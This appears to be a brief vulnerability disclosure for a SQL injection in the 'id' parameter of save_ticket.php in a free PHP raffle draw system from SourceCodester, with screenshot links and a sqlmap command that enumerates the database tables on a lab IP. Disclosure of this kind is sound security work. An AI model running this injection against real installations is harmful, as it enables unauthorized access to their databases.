 vendor：https://www.sourcecodester.com/

download link：https://www.sourcecodester.com/php/15951/raffle-draw-system-using-php-and-javascript-free-source-code.html

Vulnerability trigger parameter: $id

The process of vulnerability discovery is as follows：
![image](https://user-images.githubusercontent.com/30823782/213212381-a0b213fe-62e1-43e1-9dbf-8d1915589bb5.png)

sqlmap.py -u "http://192.168.249.88/php-js-raffle-draw/save_ticket.php" --data "id=1" -D raffle_db --tables

![image](https://user-images.githubusercontent.com/30823782/213212528-31d95845-8c5e-438b-9808-c70cbea59fee.png)

